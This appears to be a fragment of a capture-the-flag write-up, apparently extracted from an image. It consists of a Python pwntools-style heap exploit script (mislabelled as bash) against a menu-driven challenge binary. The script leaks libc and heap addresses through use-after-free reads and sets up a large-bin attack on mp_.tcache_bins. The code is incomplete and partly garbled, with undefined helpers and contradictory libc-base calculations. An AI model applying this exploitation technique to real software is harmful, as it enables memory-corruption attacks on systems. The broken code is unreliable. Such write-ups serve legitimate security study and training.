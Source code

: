 ##### exp:

```bash
def dbg():
   gdb.attach(proc.pidof(s)[0])
   pause()

def add(size,index,content):
    s.recvuntil(b'>> ')
    s.sendline(b'1')
    s.recvuntil(b'HOw much?\n')
    s.sendline(str(size))
    s.recvuntil(b'which?\n')
    s.sendline(str(index))
    s.recvuntil('Content:\n')
    s.sendline(content)

def delete(index):
    s.recvuntil(b'>> ')
    s.sendline(b'2')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))

def show(index):
    s.recvuntil(b'>> ')
    s.sendline(b'3')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))  

def edit(index,content):
    s.recvuntil(b'>> ')
    s.sendline(b'4')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))
    s.recvuntil('content:\n')
    s.sendline(content)    

# 0x415(1055) <= size < 0x550(1360)

add(0x460 ,0,b'a') 
add(0x450,1,b'b') 
add(0x450,2,b'c') 
#add(0x500,3,b'd')


delete(0)
show(0)
libc_base = 0x7fff00000000 + 0xF7E45420 - libc.sym['puts']
li('libc_base = '+hex(libc_base))
libcbase = u64(s.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 96 - 0x10 - libc.sym['__malloc_hook']
li('libcbase = '+hex(libcbase))

add(0x540,4,b'a') #largebin

delete(2)

show(2)
heap = u64(s.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
li('heap = '+hex(heap))

mp = libcbase + 0x1EC280
#dbg()
#mp_.tcache_bins = 0x7ffff7fad2d0
#mp_.tcache_max_bytes = 0x7ffff7fad2d8
```